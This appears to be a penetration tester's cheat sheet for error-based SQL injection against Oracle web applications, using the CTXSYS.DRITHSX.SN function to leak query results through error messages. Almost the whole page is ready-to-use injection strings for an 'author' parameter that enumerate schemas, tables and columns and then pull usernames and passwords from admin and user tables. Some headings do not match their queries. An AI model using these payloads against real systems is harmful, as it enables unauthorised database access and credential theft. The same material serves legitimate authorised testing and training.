 # Oracle

## Error base oracle SQLi

> [https://dl.packetstormsecurity.net/papers/database/Hacking\_Oracle\_From\_Web\_2.pdf](https://dl.packetstormsecurity.net/papers/database/Hacking_Oracle_From_Web_2.pdf)  
> [http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)  
> [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md\#oracle-sql-injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md#oracle-sql-injection)

### CTXSYS.DRITHSX.SN

```text
ctxsys.drithsx.sn(1,(sql query to execute))
```

#### Example

```text
author=1' and 1=ctxsys.drithsx.sn(1,(select user from dual))--
```

> Something went wrong with the search: java.sql.SQLException: ORA-20000: Oracle Text error: DRG-11701: thesaurus **WEB\_APP** does not exist ORA-06512: at "CTXSYS.DRUE", line 183 ORA-06512: at "CTXSYS.DRITHSX", line 555 ORA-06512: at line 1

## Limit to one result

### Get all databases

![](../../.gitbook/assets/image%20%2816%29.png)

```text
SELECT OWNER FROM (SELECT OWNER,ROWNUM AS LIMIT FROM (SELECT DISTINCT(OWNER) FROM SYS.ALL_TABLES) ORDER BY 1 ASC) WHERE LIMIT=1
```

### Get all table within the WEB\_APP database

![](../../.gitbook/assets/image%20%2814%29.png)

```text
SELECT table_name FROM (SELECT table_name,ROWNUM AS LIMIT FROM (SELECT owner, table_name FROM all_ta­bles WHERE owner=WEB_APP) ORDER BY 1 ASC) WHERE LIMIT=1
```

### Get all columns within the WEB\_APP database and WEB\_ADMINS table

![](../../.gitbook/assets/image%20%2815%29.png)

```text
author=1' AND 2092=CTXSYS.DRITHSX.SN(2092,(SELECT column_name FROM (SELECT column_name,ROWNUM AS LIMIT FROM (SELECT column_name FROM all_tab_columns WHERE owner='WEB_APP' and table_name='WEB_ADMINS') ORDER BY 1 ASC) WHERE LIMIT=1))--
```

### Select from the WEB\_APP.WEB\_ADMINS table

![](../../.gitbook/assets/image%20%2813%29.png)

```text
author=1' AND 2092=CTXSYS.DRITHSX.SN(2092,(SELECT PASSWORD FROM (SELECT PASSWORD,ROWNUM AS LIMIT FROM (SELECT PASSWORD FROM WEB_APP.WEB_ADMINS) ORDER BY 1 ASC) WHERE LIMIT=1))--
```

### Example

#### 15-05-2021 - RFC1918

#### Oracle Error SQLi - Error Messages Enabled

**Getting current user**

author=1' and 1=ctxsys.drithsx.sn\(1,\(select user from dual\)\)--

**Getting current DB**

author=1' and 1=ctxsys.drithsx.sn\(1,\(SELECT global\_name FROM global\_name\)\)--

**Listing DB's**

author=1' AND 2092=CTXSYS.DRITHSX.SN\(2092,\(SELECT OWNER FROM \(SELECT OWNER,ROWNUM AS LIMIT FROM \(SELECT DISTINCT\(OWNER\) FROM SYS.ALL\_TABLES\) ORDER BY 1 ASC\) WHERE LIMIT=7\)\)--

**Listing Tables from WEB\_APP DB**

author=1' AND 2092=CTXSYS.DRITHSX.SN\(2092,\(SELECT table\_name FROM \(SELECT table\_name,ROWNUM AS LIMIT FROM \(SELECT owner, table\_name FROM all\_tables WHERE owner='WEB\_APP'\) ORDER BY 1 ASC\) WHERE LIMIT=1\)\)--

**Listing Columns from WEB\_APP DB and WEB\_ADMINS table**

author=1' AND 2092=CTXSYS.DRITHSX.SN\(2092,\(SELECT column\_name FROM \(SELECT column\_name,ROWNUM AS LIMIT FROM \(SELECT column\_name FROM all\_tab\_columns WHERE owner='WEB\_APP' and table\_name='WEB\_CONTENT'\) ORDER BY 1 ASC\) WHERE LIMIT=2\)\)--

**Select password from WEB\_APP.WEB\_ADMINS**

author=1' AND 2092=CTXSYS.DRITHSX.SN\(2092,\(SELECT PASSWORD FROM \(SELECT PASSWORD,ROWNUM AS LIMIT FROM \(SELECT PASSWORD FROM WEB\_APP.WEB\_USERS\) ORDER BY 1 ASC\) WHERE LIMIT=1\)\)--

**Select Username and password from WEB\_USERS**

Username: author=1' AND 2092=CTXSYS.DRITHSX.SN\(2092,\(SELECT USER\_NAME FROM \(SELECT USER\_NAME,ROWNUM AS LIMIT FROM \(SELECT USER\_NAME FROM WEB\_APP.WEB\_USERS\) ORDER BY 1 ASC\) WHERE LIMIT=1\)\)--

Password: author=1' AND 2092=CTXSYS.DRITHSX.SN\(2092,\(SELECT PASSWORD FROM \(SELECT PASSWORD,ROWNUM AS LIMIT FROM \(SELECT PASSWORD FROM WEB\_APP.WEB\_USERS\) ORDER BY 1 ASC\) WHERE LIMIT=1\)\)--

